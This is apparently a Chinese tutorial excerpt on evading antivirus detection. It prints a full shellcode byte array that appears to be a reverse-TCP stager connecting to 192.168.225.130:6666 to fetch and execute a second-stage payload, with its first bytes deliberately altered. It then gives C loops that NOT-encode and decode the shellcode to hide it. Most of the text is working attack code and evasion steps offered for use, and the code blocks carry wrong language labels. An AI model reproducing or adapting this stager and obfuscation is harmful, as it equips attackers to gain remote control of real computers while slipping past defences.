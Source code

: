 ```js
char buf[] =
                            "\xff\xee\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52\x30\x8b\x52"//ff=fc,ee=e8
                            "\x0c\x8b\x52\x14\x89\xe5\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
                            "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
                            "\x75\xef\x52\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x57\x8b\x40\x78"
                            "\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3"
                            "\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34\x8b\x01\xd6\x31\xc0\xc1"
                            "\xcf\x0d\xac\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
                            "\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
                            "\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
                            "\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
                            "\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
                            "\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
                            "\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\xe1\x82\x68\x02"
                            "\x00\x1a\x0a\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
                            "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
                            "\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
                            "\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
                            "\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
                            "\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
                            "\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
                            "\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
                            "\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
                            "\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
                            "\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
```

上面是我们生成的shellcode。

```php
char buf2[sizeof(buf)] = { 0 };
char buf3[sizeof(buf)] = { 0 };
```

这里定义两个数组，并全部初始化为0，一个用于存储取反后的shellcode，一个用于存储还原的shellcode。

```c
for (int s = 0; s < sizeof(buf); s++)
{
    buf2[s] = ~buf[s];

}
```

这行代码大致意思是，循环数组中的shellcode，并一个一个的对它们进行取反操作，并将取反的结果存放至`buf2`的数组，循环条件是数组的大小。

```php
for (int s = 0; s < sizeof(buf); s++)
{
    buf3[s] = ~buf2[s];
}
```

这行代码功能是还原我们取反后的shellcode，还是循环遍历数组中的shellcode，然后依次做取反操作。
